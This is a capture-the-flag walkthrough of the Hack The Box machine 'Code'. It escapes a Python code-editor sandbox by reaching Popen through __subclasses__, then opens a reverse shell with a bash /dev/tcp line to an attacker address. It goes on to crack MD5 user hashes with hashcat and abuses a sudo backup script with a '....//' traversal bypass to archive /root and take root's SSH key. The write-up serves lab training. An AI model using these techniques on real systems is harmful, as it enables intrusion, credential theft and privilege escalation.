<p align="center">
  
</p>

[Code](https://www.hackthebox.com/machines/code) machine on [HachTheBox](https://www.hackthebox.com/) is categorized as easy and serves as a practical exercise for learning Python sandbox escape techniques to gain an initial shell. After establishing access, further enumeration reveals user hashes that must be extracted and cracked to progress. Privilege escalation is achieved by identifying commands permitted through sudo and leveraging a vulnerable section of a backup utility to retrieve files belonging to the root user.

## Info

|------------------|----------------------------|
| **Name**         | Code                      |
| **OS**           | Linux                      |
| **Difficulty**   | Easy   🟢                  |

## Port scanning

The first step is to perform a port scan in order to discover which services are exposed by the target.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.207.147
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 17:00 EDT
Nmap scan report for 10.129.207.147
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

The scan reveals that port 5000 is open, hosting a Python code editor interface.



## Initial foothold

The environment imposes restrictions on specific keywords such as `os` and `popen`, limiting the ability to execute system-level commands directly.



To circumvent these restrictions, we enumerate available methods by accessing base subclasses, allowing us to invoke functionality without explicitly referencing restricted keywords.

```python
print(().__class__.__bases__[0].__subclasses__())
```



Our exploration of the subclasses reveals the presence of `Popen`. Using the following code, we determine its index within the `__subclasses__()` array.

```python
for idx, x in enumerate(().__class__.__bases__[0].__subclasses__()):
    print(f"{idx} {str(x)}") 
```



It appears that `Popen` is located at index 317 in the `__subclasses__()` array.



We leverage `Popen` to execute commands and establish a reverse shell connection.

```python
().__class__.__bases__[0].__subclasses__()[317]('bash -c "bash -i >& /dev/tcp/10.10.14.217/9000 0>&1"', shell=True).communicate()
```



We find the user flag at `/home/app-production/user.txt` and capture it.



## Privilege escalation

Within the `instance` directory, we identify a database file named `database.db`



Inside the database, the `user` table lists two users — development and martin — each with a corresponding hashed password.



We proceed to crack the retrieved MD5 hashes to obtain the users’ passwords.

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```



Using the recovered password, we gain access to the `martin` account. Within the user’s home directory, a `backups` folder contains several files of interest that we'll see in a moment.

```bash
ssh martin@10.129.207.147
```



Using `sudo -l`, we find that martin can run `/usr/bin/backy.sh` as root without a password. Research shows that this script is a backup tool ([Backy GitHub Repository](https://github.com/vdbsh/backy/))



The Backy utility accepts a configuration file `task.json` as an argument — matching the file discovered in the `backups` folder. The contents of this file are as follows:

```json

{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```

We then examine the `backy.sh` script, executable by `martin`, to look for ways to exploit it to gain root privileges.

```sh
martin@code:~/backups$ cat /usr/bin/backy.sh 
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

A closer inspection of `/usr/bin/backy.sh` reveals that the script applies `map(gsub("\\.\\./"; ""))` to the `directories_to_archive` key from the JSON configuration file. This removes literal `../` sequences. However, this filtering can be bypassed by using `....//`, which partially strips the input while still allowing traversal outside the intended directory, achieving the same effect as `../`

We modify the contents of `task.json`, placing our crafted payload within the `directories_to_archive` field to exploit the directory traversal vulnerability:

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/app-production/app/....//....//....//root/"
  ]
} 

```

Executing the modified command produces a backup of the `/root` directory, which is saved under `/home/martin/backups/`

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json 
2025/08/19 20:29:31 🍀 backy 1.2
2025/08/19 20:29:31 📋 Working with task.json ...
2025/08/19 20:29:31 💤 Nothing to sync
2025/08/19 20:29:31 📤 Archiving: [/home/app-production/app/../../../root]
2025/08/19 20:29:31 📥 To: /home/martin/backups ...
2025/08/19 20:29:31 📦
tar: Removing leading `/home/app-production/app/../../../' from member names
/home/app-production/app/../../../root/
/home/app-production/app/../../../root/.local/
/home/app-production/app/../../../root/.local/share/
/home/app-production/app/../../../root/.local/share/nano/
/home/app-production/app/../../../root/.local/share/nano/search_history
/home/app-production/app/../../../root/.selected_editor
/home/app-production/app/../../../root/.sqlite_history
/home/app-production/app/../../../root/.profile
/home/app-production/app/../../../root/scripts/
/home/app-production/app/../../../root/scripts/cleanup.sh
/home/app-production/app/../../../root/scripts/backups/
/home/app-production/app/../../../root/scripts/backups/task.json
/home/app-production/app/../../../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/app-production/app/../../../root/scripts/database.db
/home/app-production/app/../../../root/scripts/cleanup2.sh
/home/app-production/app/../../../root/.python_history
/home/app-production/app/../../../root/root.txt
/home/app-production/app/../../../root/.cache/
/home/app-production/app/../../../root/.cache/motd.legal-displayed
/home/app-production/app/../../../root/.ssh/
/home/app-production/app/../../../root/.ssh/id_rsa
/home/app-production/app/../../../root/.ssh/authorized_keys
/home/app-production/app/../../../root/.bash_history
/home/app-production/app/../../../root/.bashrc

```

We simply decompress the backup file to examine its contents:

```bash
martin@code:~/backups$ tar -xvf code_home_app-production_app_.._.._.._root_2025_August.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
```

After extracting the backup, the `root.txt` file is successfully obtained.



The backup also includes a `.ssh` folder, so we can log in as root using the `id_rsa` key, either from our machine or directly on the target.

```bash
martin@code:~/backups$ ssh -i root/.ssh/id_rsa root@127.0.0.1
...
root@code:~# whoami
root
root@code:~# 
```
